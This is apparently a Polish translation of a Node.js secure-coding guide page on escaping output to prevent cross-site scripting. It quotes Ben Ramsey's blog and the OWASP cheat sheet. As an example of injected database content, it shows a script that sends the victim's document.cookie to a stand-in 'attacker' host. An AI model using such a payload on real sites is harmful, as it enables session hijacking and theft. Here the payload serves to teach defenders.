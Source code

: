 # Escape Output

### Wyjaśnienie jednym akapitem

HTML i inne języki internetowe mieszają zawartość z kodem wykonywalnym - pojedynczy akapit HTML może zawierać wizualną reprezentację danych wraz z instrukcjami wykonywania JavaScript. Podczas renderowania HTML lub zwracania danych z API uważamy, że czysta treść może w rzeczywistości zawierać kod JavaScript, który zostanie zinterpretowany i wykonany przez przeglądarkę. Dzieje się tak na przykład podczas renderowania treści wstawionych przez osobę atakującą do bazy danych - na przykład `<div> <script> // szkodliwy kod </script> </div>`. Można to złagodzić, instruując przeglądarkę, aby traktowała każdą część niezaufanych danych tylko jako treść i nigdy jej nie interpretowała - ta technika nazywa się ucieczką. Wiele bibliotek NPM i silników szablonów HTML zapewnia możliwość zmiany znaczenia (przykład: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Należy unikać ucieczki nie tylko treści HTML, ale także CSS i JavaScript

### Przykład kodu - Nie umieszczaj niezaufanych danych w swoim HTML

```html
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Przykład kodu - złośliwe treści, które mogą zostać wstrzyknięte do bazy danych

```html
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Cytat na blogu: „Gdy nie chcemy, aby znaki były interpretowane”

Z Bloga [benramsey.com](https://benramsey.com/articles/escape-output/)
> Data may leave your application in the form of HTML sent to a Web browser, SQL sent to a database, XML sent to an RSS reader, WML sent to a wireless device, etc. The possibilities are limitless. Each of these has its own set of special characters that are interpreted differently than the rest of the plain text received. Sometimes we want to send these special characters so that they are interpreted (HTML tags sent to a Web browser, for example), while other times (in the case of input from users or some other source), we don’t want the characters to be interpreted, so we need to escape them.

> Escaping is also sometimes referred to as encoding. In short, it is the process of representing data in a way that it will not be executed or interpreted. For example, HTML will render the following text in a Web browser as bold-faced text because the <strong> tags have special meaning: 
<strong>This is bold text.</strong>
But, suppose I want to render the tags in the browser and avoid their interpretation. Then, I need to escape the angle brackets, which have special meaning in HTML. The following illustrates the escaped HTML:

&lt;strong&gt;This is bold text.&lt;/strong&gt;


<br/><br/>

### Cytat na blogu: "OWASP recommends using a security-focused encoding library"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."


<br/><br/>

### Cytat na blogu: "You MUST use the escape syntax for the part of the HTML"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."
